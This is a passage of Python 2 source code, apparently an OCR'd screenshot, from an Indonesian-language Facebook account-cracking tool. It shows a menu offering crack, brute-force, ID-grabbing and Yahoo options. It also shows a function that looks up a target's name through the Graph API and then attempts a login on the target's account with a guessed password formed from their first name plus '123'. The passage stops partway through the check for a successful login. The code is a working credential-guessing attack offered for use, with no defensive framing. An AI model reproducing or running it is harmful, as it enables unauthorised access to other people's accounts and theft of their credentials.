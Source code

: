 
def hack_pilih():
    hack = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')
    if hack == '':
        print '\x1b[1;91m[!] Jangan kosong'
        hack_pilih()
    else:
        if hack == '1':
            mini()
        else:
            if hack == '2':
                crack()
                hasil()
            else:
                if hack == '3':
                    super()
                else:
                    if hack == '4':
                        brute()
                    else:
                        if hack == '5':
                            menu_yahoo()
                        else:
                            if hack == '6':
                                grab()
                            else:
                                if hack == '0':
                                    menu()
                                else:
                                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + hack + ' \x1b[1;91mTidak ada'
                                    hack_pilih()


def mini():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print logo
        print 40 * '\x1b[1;97m\xe2\x95\x90'
        print '\x1b[1;91m[ INFO ] Akun target harus berteman dengan akun anda dulu !'
        try:
            id = raw_input('\x1b[1;91m[+] \x1b[1;92mID Target \x1b[1;91m:\x1b[1;97m ')
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
            r = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)
            a = json.loads(r.text)
            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNama\x1b[1;97m : ' + a['name']
            jalan('\x1b[1;91m[+] \x1b[1;92mMemeriksa \x1b[1;97m...')
            time.sleep(2)
            jalan('\x1b[1;91m[+] \x1b[1;92mMembuka keamanan \x1b[1;97m...')
            time.sleep(2)
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mMohon Tunggu sebentar \x1b[1;97m...')
            print 40 * '\x1b[1;97m\xe2\x95\x90'
            pz1 = a['first_name'] + '123'
            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
            y = json.load(data)
            if 'access_token' in y: